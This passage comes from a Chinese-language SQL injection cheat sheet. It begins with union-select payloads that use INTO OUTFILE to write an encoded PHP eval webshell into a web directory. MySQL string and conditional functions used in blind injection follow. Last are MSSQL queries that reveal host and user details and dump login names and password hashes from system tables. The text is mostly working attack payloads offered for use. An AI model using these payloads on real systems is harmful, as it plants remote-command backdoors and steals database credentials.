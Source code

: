 	#小马形式2
	?id=1 and 1=2 union select 1,char(60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,99,109,100,93,41,63,62),3,4,5,6 into outfile '/xx/x.php'/*

	#小马形式3
	?id=1 and 1=2 union select 1,0x3C3F706870206576616C28245F504F53545B636D645D293F3E,3,4,5,6 into outfile '/www/home/html/coder.php'/*
**判断及字符串相关**

	#if判断
	SELECT if(1=1,'foo','bar'); #返回foo

	#case when 判断
	SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # 返回A

	#char函数，将数字转变为字符
	SELECT char(65); #返回A

	#ascii函数，将字符转变为数字
	SELECT ascii('A'); #返回65

	#concat函数，将字符连接在一起
	SELECT CONCAT('A','B'); #returns AB

	#字符串的16进制写法
	SELECT 0×414243; # 返回 ABC

	#substring/substr函数
	SELECT substr('abcd', 3, 1); #返回c
	
	#length函数
	SELECT length('abcd'); #返回4


##MSSQL
**基本环境信息**

	#数据库版本
	SELECT @@version

	#主机名，IP地址
	SELECT HOST_NAME()

	#当前用户
	SELECT user_name();
	SELECT system_user;
	SELECT user;
	SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID
	
	#列出所有用户
	SELECT name FROM master..syslogins

	#列密码 mssql 2000
	SELECT name, password FROM master..sysxlogins  --*
	SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins --*

	#列密码 mssql 2005
	SELECT name, password_hash FROM master.sys.sql_logins --*
	SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from  
	master.sys.sql_logins --*
	
